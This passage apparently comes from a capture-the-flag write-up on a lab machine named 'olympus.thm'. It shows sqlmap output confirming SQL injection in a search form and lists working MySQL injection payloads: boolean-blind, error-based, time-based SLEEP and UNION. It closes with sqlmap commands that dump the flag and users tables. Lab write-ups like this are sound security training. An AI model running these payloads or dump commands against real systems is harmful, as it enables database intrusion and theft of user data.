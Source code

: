 ```bash
[14:33:13] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:33:13] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[14:33:14] [INFO] target URL appears to have 10 columns in query
[14:33:14] [INFO] POST parameter 'search' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
[14:33:14] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 134 HTTP(s) requests:
---
Parameter: search (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: search=dsf' OR NOT 8178=8178#&submit=

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: search=dsf' AND GTID_SUBSET(CONCAT(0x716a707871,(SELECT (ELT(3140=3140,1))),0x7171767071),3140)-- ZfAd&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=dsf' AND (SELECT 8439 FROM (SELECT(SLEEP(5)))aMTl)-- GTUW&submit=

    Type: UNION query
    Title: MySQL UNION query (NULL) - 10 columns
    Payload: search=dsf' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716a707871,0x464942657a74474f47636d73774859475575714b5759447944416554676f4c414c546f544b485064,0x7171767071),NULL,NULL,NULL,NULL,NULL,NULL#&submit=
---
[14:33:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 20.04 or 20.10 or 19.10 (focal or eoan)
web application technology: Apache 2.4.41
back-end DBMS: MySQL >= 5.6
[14:33:18] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/olympus.thm'

[*] ending @ 14:33:18 /2022-08-25/

```

with the found sqli first flag can be dumped

```bash
$ sqlmap -r search.req -D olympus -T flag --dump
```

next dumping the users
```bash
$ sqlmap -r search.req -D olympus -T users --dump
```
